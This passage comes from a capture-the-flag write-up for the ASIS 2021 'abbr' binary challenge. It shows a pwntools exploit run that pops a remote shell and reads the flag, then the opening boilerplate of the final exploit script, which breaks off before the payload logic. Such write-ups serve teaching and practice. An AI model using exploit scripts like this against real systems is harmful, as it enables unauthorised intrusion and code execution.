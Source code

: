 We launch the script with the right arguments and we correctly pop a shell!

```
➜  abbr.d git:(master) ✗ python3 exploit.py HOST=168.119.108.148 PORT=10010 
[*] '/home/nasm/pwn/asis2021/abbr.d/abbr'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 168.119.108.148 on port 10010: Done
/home/nasm/.local/lib/python3.8/site-packages/pwnlib/tubes/tube.py:822: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  res = self.recvuntil(delim, timeout=timeout)
[*] Switching to interactive mode
$ id
uid=999(pwn) gid=999(pwn) groups=999(pwn)
$ ls
chall
flag-5db495dbd5a2ad0c090b1cc11e7ee255.txt
$ cat flag-5db495dbd5a2ad0c090b1cc11e7ee255.txt
ASIS{d1d_u_kn0w_ASIS_1s_n0t_4n_4bbr3v14t10n}
```

## Final exploit

```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-

# this exploit was generated via
# 1) pwntools
# 2) ctfinit

import os
import time
import pwn


# Set up pwntools for the correct architecture
exe  = pwn.context.binary = pwn.ELF('abbr')
pwn.context.delete_corefiles = True
pwn.context.rename_corefiles = False

host = pwn.args.HOST or '127.0.0.1'
port = int(pwn.args.PORT or 1337)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if pwn.args.GDB:
        return pwn.gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return pwn.process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = pwn.connect(host, port)
    if pwn.args.GDB:
        pwn.gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if pwn.args.LOCAL:
```